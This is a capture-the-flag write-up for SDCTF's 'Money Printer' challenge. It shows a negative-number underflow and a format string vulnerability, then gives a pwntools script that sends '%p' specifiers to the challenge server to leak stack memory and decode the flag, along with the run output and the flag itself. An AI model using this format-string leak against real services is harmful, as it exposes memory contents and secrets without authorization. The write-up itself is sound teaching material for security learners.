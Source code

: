 # Money Printer

![](2023-05-08-17-12-36.png)

Upon connecting to the service and entering random input:

![](2023-05-08-17-15-47.png)

Let's try entering a number:

![](2023-05-08-17-17-07.png)

Looks like if we enter negative numbers the server "gains" money. What if I enter a larger number:

![](2023-05-08-17-17-55.png)

Cool, looks like we got to this point. After playing around with this prompt for a while we can see there is a format string vulnerability.

![](2023-05-08-17-19-27.png)

Using this, we can use %p to leak data off of the stack. I did not decompile the binary but I will assume the flag has been loaded into memory and is lying somewhere on the stack.

Using the format specifier `%p`, I can print each individual value off the stack. The catch is that the endianness is swapped and the data is in hex.

I can write a simple script to take in this data and convert it to get the flag:

```py
from pwn import *

r = remote("money.sdc.tf", 1337)

print(r.recvuntil(b'want?\n'))

r.sendline(b"-1")

print(r.recvuntil(b"?\n"))

r.sendline(b"%p "*18)

var = r.recvuntil(b'\n')
r.close()

arr = [x[2:] if len(x) > 3 else x for x in var.split()]

sol = ""

for x in arr:
    if len(x)%2==0:
        localsol = ""
        for i in range(0, len(x), 2):
            localsol += chr(int(x[i:i+2], 16))
        sol+=localsol[::-1]

print(sol[sol.index('sdctf'):])
```

```
┌──(kali㉿kali)-[~/ctf/sdctf]
└─$ python3 moneyprinter.py
[+] Opening connection to money.sdc.tf on port 1337: Done
b'I have 100 dollars, how many of them do you want?\n'
b"you can have -1 dollars!\nwow you've printed money out of thin air, you have 4294967295!!! Is there anything you would like to say to the audience?\n"
[*] Closed connection to money.sdc.tf port 1337
sdctf{d4mn_y0u_f0unD_4_Cr4zY_4M0uN7_0f_M0n3y%p %p %p %p %p %p %p %p
```

Flag: `sdctf{d4mn_y0u_f0unD_4_Cr4zY_4M0uN7_0f_M0n3y}`
